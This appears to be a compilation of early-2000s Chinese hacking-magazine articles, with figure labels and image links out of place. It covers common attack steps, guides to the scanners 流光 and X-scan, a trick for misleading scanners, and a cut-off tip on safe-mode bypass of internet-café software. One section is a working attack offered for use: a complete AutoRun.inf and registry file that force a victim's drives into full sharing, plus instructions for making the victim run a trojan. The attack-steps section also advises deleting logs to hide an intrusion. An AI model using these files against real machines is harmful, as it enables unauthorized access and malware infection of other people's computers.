

图 4

# 附录

| 端口号 | 服务方式 | 端口号 | 服务方式 |
|---|---|---|---|
| 20 | ftp data | 113 | auth/ident |
| 21 | ftp/open server | 119 | nntp |
| 23 | telnet | 121 | bo / ammerkillah |
| 25 | smtp | 137 | netbios-ns |
| 31 | master paradise | 138 | netbios-dgm |
| 53 | dns bonk (dos exploit) | 139 | netbios-ssn |
| 79 | finger | 143 | imap |
| 80 | http | 161 | snmp |
| 110 | pop3 | 162 | snmp-trap |
| 512 | - | 520 | - |

黑客攻击在网络上层出不穷，一般都是被黑之后才采取补救措施，如此被动地防患也不是个办法。那如何从传统的被动防黑化为主动防黑呢？本文攻防一法教你怎么做。

既然这样，我们有必要先来了解一下黑客攻击的一般步骤，才能做到知己知彼。首先我们要知道黑客攻击的一般步骤：

## 1、收集被攻击方的有关信息，分析被攻击方可能存在的漏洞

黑客首先要确定攻击的目标。在获取目标机及其所在的网络类型后，还需进一步获取有关信息，如目标机的 IP 地址、操作系统类型和版本、系统管理人员的邮件地址等，根据这些信息进行分析，可得到有关被攻击方系统中可能存在的漏洞。如运行一个 WHOIS 命令，可以获得目标网络中有关机器的 IP 地址信息，还可识别出目标机的操作系统类型。

利用 WHOIS 查询，可了解技术管理人员的名字信息。运行一些 Usenet 和 Web 查询可了解有关技术人员是否经常上 Usenet，等等。每个操作系统都有自己的一套漏洞，有些是已知的，有些则需要仔细研究才能发现。而管理员不可能不停地阅读每个平台的安全报告，因此极有可能对某个系统的安全特性掌握得不够。通过对上述信息的分析，就可以得到对方计算机网络可能存在的漏洞。

## 2、建立模拟环境，进行模拟攻击，测试对方可能的反应

根据第一步所获得的信息，建立模拟环境，然后对模拟目标机进行一系列的攻击。通过检查被攻击方的日志，可以了解攻击过程中留下的“痕迹”。这样攻击者就知道需要删除哪些文件来毁灭其入侵证据。

## 3、利用适当的工具进行扫描

收集或编写适当的工具，并在对操作系统分析的基础上，对工具进行评估，判断有哪些漏洞和区域没有覆盖到，然后在尽可能短的时间内对目标进行扫描。完成扫描后，可对所获数据进行分析，发现安全漏洞，如 FTP 漏洞、NFS 输出到未授权程序中、不受限制的服务器访问、不受限制的调制解调器、Sendmail 的漏洞、NIS+ 全文件访问等。

## 4、实施攻击

根据已知的漏洞，实施攻击。通过猜测程序可对被截获的用户名及口令进行破解；利用网络程序可对被截获的系统管理员资料进行破译；利用网络和系统本身的薄弱环节和安全漏洞可实施电子引诱（如安放特洛伊木马）等等。黑客们或者修改网页进行恶作剧，或破坏系统程序，或放病毒使系统陷入瘫痪；或窃取政治、军事、商业秘密；或进行电子邮件骚扰或转移资金账户，窃取金钱等等。

好了，知道了黑客攻击的一般步骤后，我们就可以分析以上步骤找出可以防范的方法。传统的防黑只是被动的（等下面的分析）。在步骤 4 之前防御黑客的攻击，会起到化被动防黑为主动防黑的作用。在步骤 1 中，我们可以尽可能少地泄漏信息（这是可以做到的），那么步骤 2 就很难持续下去，达到防黑的目的。在步骤 3，以前都是黑客主机欺骗服务器主机，我们当然可以反过来，即服务器主机欺骗黑客主机。原理很简单：现在的黑客没几个人用自己编的软件实施攻击（这也是中国黑客为什么技术不高的原因吧！）。那么，我们就有必要了解几个常见的扫描工具：

- 1、X-WAY 2.5（安全焦点的高级扫描工具）可对系统进行综合扫描，包括端口扫描、系统 CGI 漏洞扫描，包括搜集约 1000 多条 CGI 漏洞，如 unicode 漏洞，IIS5 NULL.printer 漏洞扫描；还有对 NT 主机进行 IPC 探测，列举主机用户、共享资源、工作组等；获取 Web 服务信息，SMTP 的 VRFY/EXPN 用户验证及漏洞检测，FTP 匿名登录检测，Finger 探测，RPC 探测，弱口令检测，并能代理扫描。如图 1 所示：



- 2、流光（小榕编写的高级扫描工具）流光 IV 的高级扫描包括了如下扫描功能，如图 2 所示：

- PORTS（常用端口-自定义端口）
- POP3（Banner、特定版本漏洞、暴力模式）
- HTTP（Banner、特定版本漏洞、暴力模式）
- SMTP（Banner、特定版本漏洞、暴力模式）
- IMAP（Banner、特定版本漏洞、暴力模式）
- TELNET（Banner、特定版本漏洞）
- CGI（Banner、Unix/NT 自动识别、ErrorPage 检测、规则库可手工加入）
- SQL（通过漏洞扫描、暴力模式）
- IPC（NETBIOS）（获得用户列表、共享列表、暴力模式）
- IIS（IIS 漏洞）
- FINGER（Finger 漏洞扫描）
- RPC（Unix Finger 漏洞扫描、获得用户列表）
- MISC（Bind 版本、MySql 弱密码扫描）
- PLUGIN（可以方便地增加对某种类型漏洞的扫描）

流光 IV 和以前版本相比增加（修改）了如下功能：

- IIS Remote Shell
- IPC Pipe Remote Shell
- IPC 炸弹者
- SQL Remote Shell
- PC AnyWhere 解码
- 支持 HTTP Basic/Negotiate/NTLM 方式认证
- IPC 探测
- IMAP 探测



这些我要讲的是 CGI/ASP 等漏洞的防黑方法。通过分析，我们不难发现扫描工具扫描 CGI/ASP 等漏洞的原理：

向服务器的 WWW 服务端口发送特定的请求，若服务器响应为 200，就认为有此漏洞。已修复的服务器的传统防黑手段是对这种特定的请求不响应，或响应其他的返回码（不是 200）。我认为服务器应响应所有请求，并对已修复的漏洞也响应为 200（最好返回特定的页面），这样就欺骗了扫描工具，也就欺骗了黑客，让黑客一筹莫展、无从下手。这样黑客虽然扫描到了很多的漏洞，也可以说大部分的漏洞不可以用，从而把真正的漏洞隐藏在里面（可能有上百个甚至上千个 CGI 漏洞），这样就从传统的被动防黑转化为主动防黑。

## 总结

我所说的方法在某网站验证过，并达到了一定的效果。但这种方法不是最有效，更有效的防黑方法是找一个勤快的管理员（由于我没当过网站的管理员，所以缺少经验，有不足之处欢迎来 X 论坛讨论）。

## X-scan v1.3 扫描器的使用简介

X-scan v1.3 扫描器是安全焦点（http://www.xfocus.net）的作品。它实在是一个不可多得的精品，它具有以下特点：

- 体积小，压缩后只有 1.57MB，相对于流光和 SSS 可谓是小巧玲珑了。
- 速度快，把扫描模块里的选项全部选定，扫描一台主机也不过 8 分多钟。测试环境：P375，内存 128M，操作系统 Windows 2000 Server。
- 扫描深入全面，我在做本地入侵检测时，用流光 IV Build 2915 和 X-scan v1.3 先后扫描，结果 X-scan v1.3 比流光 IV Build 2915 多扫描出 4 个安全隐患。
- 使用方便，即使新手也可以在几分钟内掌握。
- 扫描结果报告非常详细。

先来看看 X-scan v1.3 的界面，很是简明了。如图 1 所示：



上面是下拉菜单，所有命令都在这里。下面是工具栏，这些都是下拉菜单中的一些选项的快捷按钮，有这些按钮已经足够应付了，如图 2 所示：


工具栏里的第一个是“扫描模块”，里面可以选择要扫描的项目，可以根据实际需要决定要扫描哪个。比如可以根据目标主机开的服务来决定要扫描的漏洞，以提高扫描效率。选择好了就按“确定”。如图 3 所示：



工具栏的第二个按钮是“扫描参数”。这里需要改动的就是“检测范围”和“其它”。在“指定 IP 范围”里填入目标主机的 IP 或 IP 段，如 xx.xxx.xxx.xxx 或 xx.xxx.xxx.1-xx.xxx.xxx.255，可以选择“扫描前先 PING 主机”。如果你想看详细进度，就选上“显示详细进度”，不想看就不要选。如图 4 所示：



接着看“端口相关设置”，“待检测端口”这里可以只保留 1-139、443、445、1080、1433、2049、3128、3389 以提高效率，检测方式不用管它，如图 5 所示：



“CGI 相关设置”“字典文件设置”“代理服务器”均可以采用默认的，当然你也可以根据需要修改，这里不再详叙。再来看主界面，注意到这里了吗？如图 6 所示：



“程序输出”就是扫描的状态，即时反映出扫描的进度，如图 7 所示：



“扫描结果”顾名思义就是扫描的结果了，如图 8 所示；“线程状态”就是显示扫描器此时扫描到哪个部分，如图 9 所示：

工具栏第三个就是“开始扫描”，第四个就是“暂停扫描”，第五个是“停止扫描”，第六个是“检测报告”，也就是扫描报告了。这很重要，扫描完以后可以看这里，它非常详细地介绍了扫描到的漏洞，单击后如图 10 所示：



图 8

单击“详细资料”还可以看到更加详细的资料，什么漏洞、漏洞简介、解决方法样样俱到。

还可连接到软件的主页查看相关漏洞资料，的确是比什么都详细。做网管的朋友少不了哦！



图 9



图 10

文章到这里也该告一段落了！希望大家喜欢 X-scan v1.3 这款超级扫描器。有什么问题可以来 X 论坛与我讨论。

# 光盘自动运行文件

### Autorun.inf 的利用

冯智渊

最近有个朋友打电话给我，说他扫到一台开着共享的机器，但对方没有把系统所在的 C 盘共享，而只是共享了其它驱动器。虽然他知道很多让对方一开机就运行某个指定程序的方法，但前提都是要修改 C 盘中的某些文件才行，如“win.ini”“system.ini”等，可进不了 C 盘他就一点办法都没有了。我想这种情况并不只是发生在我朋友身上，很多玩过 139 端口共享入侵的朋友一定也碰到过这种情况。其实这种情况并没有我们想象中那么糟，只要对方完全共享了任何一个驱动器，我们就有办法让对方把所有驱动器都共享出来，甚至让对方中木马！

## 一、原理

如果你经常使用自动运行光盘，你就会发现在可以自动运行的光盘的根目录中有一个控制光盘自动运行的文件，那就是“autorun.inf”文件。这个文件不但能让光盘自动运行程序，也能让我们的一些驱动器都自动运行程序。方法很简单，先打开记事本，键入以下内容：

```ini
[AutoRun]
open=c:\x.exe
```

接下来另存为 AutoRun.inf 文件并把它放置在对方完全共享的驱动器根目录下，然后把要运行的程序也一起拷贝过去，这样当对方双击这个驱动器后就会运行你指定的文件了！

### 二、实例

下面就举个例子：如果你扫到一台开着 139 共享的机器，而对方只完全共享了 D 盘，我们要让对方的所有驱动器都共享。首先编辑一个注册表文件，打开记事本，键入以下内容：

```reg
REGEDIT4
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Network\Lanman\C$]
"Path"="C:\\"
"Remark"=""
"Type"=dword:00000000
"Flags"=dword:00000192
"Parm1enc"=hex:
"Parm2enc"=hex:

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Network\Lanman\D$]
"Path"="D:\\"
"Remark"=""
"Type"=dword:00000000
"Flags"=dword:00000192
"Parm1enc"=hex:
"Parm2enc"=hex:

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Network\Lanman\E$]
"Path"="E:\\"
"Remark"=""
"Type"=dword:00000000
"Flags"=dword:00000192
"Parm1enc"=hex:
"Parm2enc"=hex:
```

（以上只设置到 E 盘，如果对方有很多的盘请自行设置）

然后另存为 Key.reg 文件。

打开记事本，键入以下内容：

```ini
[AutoRun]
open=regedit /s key.reg
```

然后另存为 AutoRun.inf 文件。

将这两个文件都复制到对方的 D 盘的根目录下，如右图所示。这样对方只要双击 D 盘就会将 Key.reg 导入注册表，这样对方电脑重启后所有驱动器都会完全共享。

如果想让对方中木马，只要在 AutoRun.inf 文件中，把“open=key.reg”改成“open=木马服务端文件名”，然后把 AutoRun.inf 和配置好的木马服务端一起复制到对方 D 盘的根目录下就可以了，这样对方双击 D 盘就会运行木马了！

# 将安全进行到底

小智

作为一名网管，你为了网吧安全和管理的需要，通常都会用网吧管理软件来对你的网吧进行管理，让你从繁琐的人工管理中解脱出来，并大大提高你的工作效率。虽然在正常情况下，作为网管的你可以高枕无忧，轻松管理。但是所谓“道高一尺，魔高一丈”，破解者总是能利用系统的配置或网络漏洞冲破你苦心设置的层层屏障，直接挑战核心，破坏你的系统。虽然 GHOST 类软件能快速帮你恢复系统，但频繁的破坏事件，也定会让你心力憔悴。

网吧管理软件的开发者也在不断升级他们的软件，提高安全性能，使得许多高手的破解手段也不再有用了。但破解者另辟蹊径，又发现了一种简单的破解手段，能让他们重返“蜜”界乐园。

那就是在开机时按 F8 出现启动菜单，选择“Safe mode”进入安全模式，因为安全模式是 Windows 在发生故障时的自救功能。在安全模式中 Windows 除了运行最基本的程序外，不会运行任何其它程序，当然也不会运行网吧管理软件了。我们只要在“开始”→“程序”→“附件”→“系统工具”→“系统信息”→“系统配置实用程序”→“启动”中将开机要运行的网吧管理软件去掉，这样下次开机就不会运行网吧管理软件了。是不是破解很容易。既然你所用网吧管理软件“禁”了那么多，就敢将“禁”进行到底，把开机按 F8 进入安全模式也禁止了吧！下面就是禁止开机按 F8 出现启动菜单的方法，建议在开始之前先制作一张启动盘，这样万一系统出了故障就能用它进入安全模式或 DOS 模式了。

准备好了我们就开始了，先找到 MSDOS.SYS 文件，一般在 C 盘根目录下，用右键点击该文件，在弹出对话框中选择属性，在属性中将只读去掉，然后用记事本打开该文件，在 [Options] 块中添加以下两个设置值：

